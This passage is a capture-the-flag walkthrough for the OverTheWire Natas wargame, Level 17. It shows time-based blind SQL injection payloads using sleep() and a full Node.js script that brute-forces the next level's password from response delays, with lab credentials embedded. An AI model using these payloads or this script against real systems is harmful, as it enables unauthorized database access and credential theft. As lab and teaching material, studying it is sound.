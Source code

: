 ```javascript
// fin
```

### Level 17 `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`
- It's apparent that there's no way we can get the code to print anything other that the query being executed. (The lines of code are commented, we cannont change that.)
- So we need to use the time based approach of SQL Injection to find the password. Try to following input:
```
natas18" and sleep(10) -- 
```
- We notice that there's a 10 second delay in the response. Now let's try with something that we know for sure is not present in the database, to make sure this works.
```
ankush" and sleep(10) -- 
```
- There's no delay in the response so the time based approach is working. We can now add the password we need to find for the user "natas18"
```
natas18" and password like "%" and sleep(10) -- 
```
- Ten second delay is noticed. Perfect now we need a script to brute-force the password out, much like natas15:
```javascript
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/', (req, res) => res.send('Hello World!'));

const headers = {
    'Authorization': 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='
}
async function req(ch) {
    let aTime = new Date();
    const res = await axios.post(`http://natas17.natas.labs.overthewire.org/index.php`, `username=natas18%22+and+password+like+binary+%22${ch}%25%22+and+sleep%285%29+--+`, {headers});
    let bTime = new Date();
    let diff = (bTime.getTime() - aTime.getTime()) / 1000;
    if(diff >= 5) {
        return true;
    } else {
        return false;
    }
}

async function calc() {
    const alphanum = 'QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm1234567890';
    let ans = '';
    
    for(let i=0; i<alphanum.length; i++) {
        let val = await req(ans + alphanum[i]);
        if(val) {
            ans += alphanum[i];
            console.log(ans);
            i = -1;
        }
    }
    console.log('fin');
}

calc();

```
